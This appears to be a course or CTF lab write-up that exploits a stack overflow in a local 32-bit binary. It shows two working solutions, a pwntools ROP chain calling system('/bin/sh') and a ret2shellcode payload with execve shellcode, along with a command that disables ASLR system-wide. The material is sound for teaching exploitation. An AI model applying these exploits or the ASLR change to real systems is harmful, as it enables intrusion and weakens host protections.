 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**

![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue
& will print "I did it!"

`solver.py`
```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d66000
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

I_addr = libc_base + next(libc.search(b'I'))
d_addr = libc_base + next(libc.search(b'd'))
i_addr = libc_base + next(libc.search(b'i'))
#t_addr = libc_base + next(libc.search(b't'))
t_addr = libc_base + next(libc.search(b'T'))

exclamation_addr = libc_base + next(libc.search(b'!'))

format_string = libc_base + next(libc.search(b'%s'))

rop = ROP(binary)

rop.call("printf", [format_string, I_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, d_addr])
rop.call("printf", [format_string, i_addr])
rop.call("printf", [format_string, t_addr])
rop.call("printf", [format_string, exclamation_addr])

rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit

sys.stdout.buffer.write(payload)
```

```
./lab9 $(python3 solver.py)
```

![image](https://gist.github.com/user-attachments/assets/1c6f15b4-93d0-4cca-8da3-c1af28b58b22)








## Ret2Shellcode Way Solution

![image](https://github.com/user-attachments/assets/209afafb-8d9c-41f3-b554-e150efaa470b)

Since our binary has an executable stack(RWX) (indicated by Stack: Executable and NX: NX unknown) 
a ret2shellcode approach is possible. This means we can inject shellcode directly onto the stack and then use a ROP chain to jump to it.

**Find Shellcode Address via GDB**

```bash
b unsafe

run $(python3 -c 'print("A" * 100)')

```

![image](https://github.com/user-attachments/assets/d719489d-1de9-4310-ab2a-42493415b2eb)

**Craft your Exploit**

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./lab9')
context.terminal = ['alacritty', '-e']

offset = 22
shellcode_addr = 0xffffcf50 # somewhere in the nop sled
message_addr = 0xffffd6bc

gs = """
b *main
continue
"""

shellcode = f"""
push 0x41410a21
push 0x74692064
push 0x69642049

push 4
pop eax
push 1
pop ebx
mov ecx, esp
push 10
pop edx
int 0x80

push 0x4168732f
push 0x6e69622f

xor eax, eax
mov byte [esp + 6], al

mov al, 11
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

payload = b'A'*offset + pack(shellcode_addr)
payload += b'\x90' * 1000
payload += asm(shellcode)

io = process([elf.path, payload])
io.interactive()
```

#### Run it

```bash
python3 solver.py
```

![image](https://github.com/user-attachments/assets/4d8cb0b9-a08e-43f6-a658-8f53d2ded955)


![image](https://github.com/user-attachments/assets/f9687a27-24e8-4230-b8a7-4aa0141db6eb)


### GG We did it

![image](https://github.com/user-attachments/assets/ad93791e-fc88-4fe8-8f8a-9eae462643ab)

